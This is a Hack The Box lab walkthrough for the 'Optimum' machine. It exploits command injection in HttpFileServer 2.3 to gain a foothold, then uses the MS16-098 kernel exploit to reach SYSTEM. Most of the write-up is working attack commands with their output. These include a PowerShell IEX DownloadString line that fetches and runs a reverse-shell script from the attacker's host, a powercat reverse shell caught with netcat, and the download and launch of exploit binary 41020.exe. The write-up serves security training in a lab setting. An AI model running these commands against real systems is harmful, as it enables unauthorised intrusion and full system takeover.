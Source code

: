 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [HttpFileServer httpd 2.3](#httpfileserver-httpd-23)
- [Foothold](#foothold)
	- [HttpFileServer 2.3 Command Injection](#httpfileserver-23-command-injection)
	- [PowerShell Reverse Shell](#powershell-reverse-shell)
- [Privilege Escalation](#privilege-escalation)
	- [RGNOBJ Integer Overflow](#rgnobj-integer-overflow)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

+ HttpFileServer httpd 2.3

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.8

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.8 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 23:47 +07
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.21 seconds
```

### HttpFileServer httpd 2.3

Port 80 is running service HttpFileServer version 2.3.

![](images/2.png)

Search public exploit

```
┌──(Hades㉿10.10.14.5)-[1.5:20.3]~
└─$ searchsploit HttpFileServer 2.3         
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Ex | windows/webapps/49125.py
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### HttpFileServer 2.3 Command Injection

Using exploit `windows/webapps/49125.py` to sent command `cmd.exe /c ping 10.10.14.5` and monitor icmp using `tcpdump`.

```
┌──(Hades㉿10.10.14.5)-[1.5:20.7]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "cmd.exe /c ping 10.10.14.5"
http://10.10.10.8:80/?search=%00{.+exec|cmd.exe%20/c%20ping%2010.10.14.5.}
```

This exploit successfully execute command ping in the server

```
┌──(Hades㉿10.10.14.5)-[1.5:20.5]~
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:00:27.674206 IP 10.10.10.8 > 10.10.14.5: ICMP echo request, id 1, seq 1, length 40
00:00:27.674272 IP 10.10.14.5 > 10.10.10.8: ICMP echo reply, id 1, seq 1, length 40
<snip>
```

### PowerShell Reverse Shell

Using powercat.ps1 to create ps file reverse shell.

```
┌──(Hades㉿10.10.14.5)-[0.1:13.9]~/walkthrough/hackthebox/optimum
└─$ pwsh
PowerShell 7.1.2
<snip>       

PS /<snip> . ./powercat.ps1
PS /<snip> powercat -c 10.10.14.5 -p 443 -e cmd.exe -g > shell.ps1
```

At kali machine, create a http server and a listener.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.7]~/walkthrough/hackthebox/optimum
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
```

Last step, execute payload with python3.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"

┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "$cmd"
http://10.10.10.8:80/?search=%00{.+exec|powershell.exe%20IEX%20%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.5/shell.ps1%27%29.}
```

At the listener, I have reverse shell

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

## Privilege Escalation

### RGNOBJ Integer Overflow

Enum systeminfo in the server and save the output to file `win-server-2012-6.3.9600.txt`

```
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
<snip>
System Type:               x64-based
<snip>
```

Check the output using [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
┌──(Hades㉿10.10.14.5)-[0.1:13.5]~/priescal/Windows-Exploit-Suggester
└─$ python windows-exploit-suggester.py --database 2021-04-03-mssb.xls --systeminfo ~/walkthrough/hackthebox/optimum/win-server-2012-6.3.9600.txt
<snip> 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
<snip>
[*] done
```

With System Type is x64-based, the vunerable `MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466)` may work in the server. Let's download binary file with `wget`.

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

Upload file `41020.exe` to windows Server using power shell

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/41020.exe','C:\Users\kostas\Desktop\41020.exe')"
```

Execute file `41020.exe` and we have system.

```
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

C:\Users\kostas\Desktop>
```